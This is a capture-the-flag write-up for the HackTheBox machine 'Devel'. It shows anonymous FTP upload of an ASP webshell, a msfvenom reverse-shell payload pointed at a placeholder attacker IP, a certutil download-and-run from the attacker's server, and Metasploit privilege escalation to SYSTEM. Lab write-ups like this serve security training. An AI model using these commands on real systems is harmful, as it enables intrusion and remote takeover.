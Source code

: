 ## HackTheBox - Devel

I started with the initial nmap scan to see which ports are open to us.

`nmap -Pn -sV -sC -T4 <IP>`

![Screenshot0](./screenshots/screenshot0.png)

We see an FTP server on port 21 and an IIS web server on port 80.
Through the `-sC` switch of nmap we also see that the FTP server is supported with an **Anonymous Login**.

I logged on to the FTP server to see what was on it.

![Screenshot1](./screenshots/screenshot1.png)

`aspnet_client`,`iisstart.htm`,`welcome.png`...

If we append these files/paths to our URL in the browser and look at them in the web browser, we quickly understand that the FTP server is set up so that we have access to the web server.

I uploaded a small test file and saw that we can easily upload files to the webserver which are also accessible.

So I picked a simple ASP webshell and uploaded it. 

![Screenshot2](./screenshots/screenshot2.png)

With a `whoami` command, we see that we can issue system commands and also immediately recognise that we are operating under the user `iis apppool\web`.

My next step was to establish a more interactive meterpreter session.

I created an exe for a meterpreter reverse session with `msfvenom` and started the listener.

`msfvenom -p windows/shell/reverse_tcp LHOST=<ATTACKER_IP> LPORT=1234 -f exe > rev.exe`

Then I started a `python3 -m http.server` webserver on my machine and loaded the exe with the `certutil.exe` tool into the `C:\Windows\Temp\` directory of Windows.

Command: `certutil.exe -urlcache -split -f http://<ATTACKER_IP>:8000/rev.exe C:\Windows\Temp\rev.exe`

Then just run in the webshell `c:\Windows\TEMP\rev.exe` and we get our meterpreter reverse shell.

![Screenshot3](./screenshots/screenshot3.png)

## PrivEsc
`sysinfo` showed me that we are dealing with a relatively old `Windows 7`.

```
(Meterpreter 1)(c:\windows\system32\inetsrv) > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```

I searched for local exploits with the post module of metasploit `multi/recon/local_exploit_suggester` and got the following suggestions.

![Screenshot4](./screenshots/screenshot4.png)

The exploit `windows/local/ms10_015_kitrap0d` worked.

I was now `NT AUTHORITY\SYSTEM` and I got the user and root flag.

![Screenshot5](./screenshots/screenshot5.png)
